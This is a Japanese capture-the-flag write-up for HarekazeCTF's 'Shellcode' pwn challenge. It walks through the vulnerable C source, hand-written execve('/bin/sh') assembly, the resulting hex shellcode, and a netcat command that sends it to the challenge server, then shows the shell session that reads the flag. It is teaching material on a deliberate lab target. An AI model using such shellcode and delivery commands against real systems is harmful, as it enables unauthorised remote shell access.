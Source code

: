 # Shellcode:Pwn:154pts
nc 20.48.83.165 20005  

---

Attachments: [shellcode.zip](shellcode.zip)  

# Solution
何も考えず接続してみる。  
```bash
$ nc 20.48.83.165 20005
Present for you! "/bin/sh" is at 0x404060
Execute execve("/bin/sh", NULL, NULL)
ls
timeout: the monitored command dumped core
```
`/bin/sh`のアドレスを教えてくれる。  
配布されたzipの中のソースは以下になっていた。  
```c:shellcode.c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

char binsh[] = "/bin/sh";

int main(void) {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    printf("Present for you! \"/bin/sh\" is at %p\n", binsh);
    puts("Execute execve(\"/bin/sh\", NULL, NULL)");

    char *code = mmap(NULL, 0x1000, PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    // Clear rsp and rbp
    memcpy(code, "\x48\x31\xe4\x48\x31\xed", 6);
    read(0, code + 6, 0x100);
    mprotect(code, 0x1000, PROT_READ | PROT_EXEC);

    ((void (*)())(code))();

    return 0;
}
```
PROT_EXECなのでシェルコードを実行できるようだ。  
言われたとおり`execve("/bin/sh", NULL, NULL)`を実行する。  
システムコール番号59(0x3b)をrax、引数をrdi、rsi、rdxの順で入れていく。  
rdiは先ほど表示された`/bin/sh`のアドレス(0x404060)になる。  
以下のようなアセンブリになる。  
```asm
mov    al,0x3b
movabs rdi,0x404060
xor    esi,esi
xor    rdx,rdx
syscall
```
[Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm)でhexに変換すると楽である。  
以下のようなシェルコードが完成する。  
```text
\xB0\x3B\x48\xBF\x60\x40\x40\x00\x00\x00\x00\x00\x31\xF6\x48\x31\xD2\x0F\x05
```
ncで送信する。  
```bash
$ (echo -e "\xB0\x3B\x48\xBF\x60\x40\x40\x00\x00\x00\x00\x00\x31\xF6\x48\x31\xD2\x0F\x05";cat) | nc 20.48.83.165 20005
Present for you! "/bin/sh" is at 0x404060
Execute execve("/bin/sh", NULL, NULL)
ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd home
ls
shellcode
cd shellcode
ls
flag
shellcode
cat flag
HarekazeCTF{W3lc0me_7o_th3_pwn_w0r1d!}
```
シェルが得られ、flagが読み取れた。  

## HarekazeCTF{W3lc0me_7o_th3_pwn_w0r1d!}